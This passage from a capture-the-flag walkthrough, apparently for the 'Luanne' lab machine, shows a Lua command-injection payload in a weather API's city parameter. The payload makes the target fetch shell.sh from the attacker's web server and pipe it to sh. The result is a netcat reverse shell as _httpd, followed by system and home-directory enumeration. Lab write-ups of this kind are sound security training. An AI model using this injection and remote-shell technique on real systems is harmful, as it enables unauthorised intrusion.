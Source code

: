 ```
└─$ nc -nvlp 8585        
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8585
Ncat: Listening on 0.0.0.0:8585

```

Finally, run the following command:

```
└─$ curl "http://10.10.10.218/weather/forecast?city=London');os.execute('curl+10.10.14.3:8000/shell.sh|sh')--"
```

We see that the shell script is downloaded from our python web server:

```
└─$ python3 -m http.server                                                                                    2 ⚙
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.218 - - [24/Nov/2021 06:06:37] "GET /shell.sh HTTP/1.1" 200 -

```

And in our listener, we get a shell:

```
└─$ nc -nvlp 8585        
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8585
Ncat: Listening on 0.0.0.0:8585
Ncat: Connection from 10.10.10.218.
Ncat: Connection from 10.10.10.218:64347.
sh: can't access tty; job control turned off
$ id
uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
$ 
```

## Enumeration as "\_httpd"

Let's gather some basic system information:

```
$ uname -a
NetBSD luanne.htb 9.0 NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020  mkrepro@mkrepro.NetBSD.org:/usr/src/sys/arch/amd64/compile/GENERIC amd64
$ netstat -ant | grep LISTEN
tcp        0      0  127.0.0.1.3000         *.*                    LISTEN
tcp        0      0  127.0.0.1.3001         *.*                    LISTEN
tcp        0      0  *.80                   *.*                    LISTEN
tcp        0      0  *.22                   *.*                    LISTEN
tcp        0      0  *.9001                 *.*                    LISTEN
tcp6       0      0  *.22                   *.*                    LISTEN
$ ls -la /home
total 12
drwxr-xr-x   3 root        wheel  512 Sep 14  2020 .
drwxr-xr-x  21 root        wheel  512 Sep 16  2020 ..
dr-xr-x---   7 r.michaels  users  512 Sep 16  2020 r.michaels
$ 
```
